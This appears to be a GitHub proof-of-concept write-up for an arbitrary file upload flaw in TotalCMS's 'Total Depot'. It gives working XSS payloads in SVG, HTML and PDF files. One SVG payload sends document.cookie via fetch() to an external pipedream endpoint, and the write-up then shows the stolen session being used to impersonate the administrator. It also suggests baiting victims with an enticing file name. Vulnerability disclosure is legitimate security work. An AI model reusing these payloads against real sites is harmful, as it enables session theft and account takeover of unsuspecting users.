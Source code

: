 # TotalCMS Arbitrary File Upload - XSS and steal cookies

## Author: (Sergio)

**Description:** TotalCMS is affected by Arbitrary File Upload - XSS vulnerability which allows Cross-Site Scriting (XSS) and also stealing session cookies

**Attack Vectors:** A vulnerability in "Total Depot" file upload sanitation allows you to upload a PDF / SVG /HTML file with hidden alert Cross-Site scripting (XSS) and steal the user cookies.

---

I am going to do 2 PoCS:
### - POC 1: Cross-Site scripting (XSS) PDF / SVG and HTML files

### - POC 2: Theft of user cookies and forwarding to an external server to intercept them and impersonate the user.


We start with the first PoC:

### POC 1: Cross-Site scripting (XSS) PDF / SVG and HTML files


When logging into the admin panel (https://www.totalcms.co/demo/total-cms/admin/), we will go to the "Total Depot" off the Administration Site and we upload the PDF/ SVG/ and HTML files with the hidden XSS.


There is the payloads:

### XSS PDF Payload:

It is an XSS payload generated with the JS2PDFInjector tool and a js payload that contains the following content:

```js
app.alert("XSS");
```

### SVG Payload:

```js
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
   <polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>
   <script type="text/javascript">
      alert(document.location);
   </script>
</svg>
```

### HTML Payload:

```js
<html>
	<script>
		alert(document.cookie);
	</script>
</html>
```


![image](https://github.com/sromanhu/TotalCMS-Arbitrary_File-Upload--XSS_Steal_Cookies---TotalDepot/assets/87250597/59567372-3336-4efd-aa24-2293ee2018c3)



![image](https://github.com/sromanhu/TotalCMS-Arbitrary_File-Upload--XSS_Steal_Cookies---TotalDepot/assets/87250597/bfbddc70-9021-4fdb-9ed5-63eed29f25ce)


Once uploaded, if we click on the link we can see the path where they are stored:

![image](https://github.com/sromanhu/TotalCMS-Arbitrary_File-Upload--XSS_Steal_Cookies---TotalDepot/assets/87250597/eedf4cdb-6401-4e64-8cab-479f9cedfcec)


PATH of the files:


![image](https://github.com/sromanhu/TotalCMS-Arbitrary_File-Upload--XSS_Steal_Cookies---TotalDepot/assets/87250597/fc975779-4e50-4408-8947-42927049faf1)


![image](https://github.com/sromanhu/TotalCMS-Arbitrary_File-Upload--XSS_Steal_Cookies---TotalDepot/assets/87250597/9dec0ba5-17e9-4ddb-b917-2657b1ee21ed)


![image](https://github.com/sromanhu/TotalCMS-Arbitrary_File-Upload--XSS_Steal_Cookies---TotalDepot/assets/87250597/8a1be3fe-bbb8-47e3-8d4f-5933df2af82a)



And this is the result with the Cross-Site Scripting (XSS) of the 3 types of files and with the user's cookies:


![image](https://github.com/sromanhu/TotalCMS-Arbitrary_File-Upload--XSS_Steal_Cookies---TotalDepot/assets/87250597/f5ef6c07-c3ee-44fd-b999-266a654d8d29)


![image](https://github.com/sromanhu/TotalCMS-Arbitrary_File-Upload--XSS_Steal_Cookies---TotalDepot/assets/87250597/ce05700f-1dda-4275-a40a-1944bef4bb36)


![image](https://github.com/sromanhu/TotalCMS-Arbitrary_File-Upload--XSS_Steal_Cookies---TotalDepot/assets/87250597/8e84bc6e-e5f0-43b5-9f63-b93a41167baa)



We continue with the second PoC:


### - POC 2: Theft of user cookies and forwarding to an external server to intercept them and impersonate the user.

We are going to pretend that we are a cybercriminal and we are going to steal the user's session cookies and they will be sent to the server.
In this case I have uploaded a file as PoC but in a real case, we can upload a file with an interesting name "NBA Tickets" and publish it, so that the victim user sends me the cookies when executing the file, without realizing it. of it.


We perform a test to see if we have communication with an external server.


There is the payload:

```js
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC
"-//W3C//DTD SVG 1.1//EN"
"http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg width="200"        
height="200"        
zoomAndPan="disable"        
xmlns="http://www.w3.org/2000/svg"        
xmlns:xlink="http://www.w3.org/1999/xlink"        
xml:space="preserve">
<!-- Script linked from the outside-->     
<script xlink:href="https://enbjn0l9vbowi.x.pipedream.net/" />     
<script>       
//<![CDATA[         
alert("XSS");       
]]>     
</script>   
</svg>
```

![image](https://github.com/sromanhu/TotalCMS-Arbitrary_File-Upload--XSS_Steal_Cookies---TotalDepot/assets/87250597/eaa232df-c43d-48a7-a75a-653b86f55f9f)


![image](https://github.com/sromanhu/TotalCMS-Arbitrary_File-Upload--XSS_Steal_Cookies---TotalDepot/assets/87250597/ffd7cced-e6a5-4034-ace5-8e2729523f85)


As we see in the pipedream Request, we have obtained the request correctly.


We modify the payload to steal cookies and send them to the pipedream Request, so that we can impersonate the user.


There is the payload:

```js
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC
"-//W3C//DTD SVG 1.1//EN"
"http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg width="200"        
height="200"        
zoomAndPan="disable"        
xmlns="http://www.w3.org/2000/svg"        
xmlns:xlink="http://www.w3.org/1999/xlink"        
xml:space="preserve">
<!-- Script linked from the outside-->     
<script>
  fetch('https://enbjn0l9vbowi.x.pipedream.net/', {
  method: 'POST',
  mode: 'no-cors',
  body: document.cookie
  });
</script>   
</svg>
```

![image](https://github.com/sromanhu/TotalCMS-Arbitrary_File-Upload--XSS_Steal_Cookies---TotalDepot/assets/87250597/f4ac2d48-f957-4c5d-a173-053ba3097aec)


![image](https://github.com/sromanhu/TotalCMS-Arbitrary_File-Upload--XSS_Steal_Cookies---TotalDepot/assets/87250597/a6dae6e1-d139-4aa7-8d02-f62fea31232e)



As we see in the image, we have correctly obtained the user's session cookies.


Now we are going to impersonate the user. To test it, we open a session to TotalCMS/admin in another browser and open the "Cookie Editor" addon.


![image](https://github.com/sromanhu/TotalCMS-Arbitrary_File-Upload--XSS_Steal_Cookies---TotalDepot/assets/87250597/00cd865a-e329-496e-ac26-24970fe4b617)


We modify the session cookie to the one obtained in pipestream and save.


![image](https://github.com/sromanhu/TotalCMS-Arbitrary_File-Upload--XSS_Steal_Cookies---TotalDepot/assets/87250597/2d9a2f2b-7c82-41a1-b7bb-0e778bf33b9d)



We reloaded the website and we have impersonated the administrator user.

![image](https://github.com/sromanhu/TotalCMS-Arbitrary_File-Upload--XSS_Steal_Cookies---TotalDepot/assets/87250597/7eaf4ac6-3725-4351-a4d6-9b2a92a93922)






</br>

### Additional Information:
https://www.totalcms.co/

https://cheatsheetseries.owasp.org/cheatsheets/File_Upload_Cheat_Sheet.html

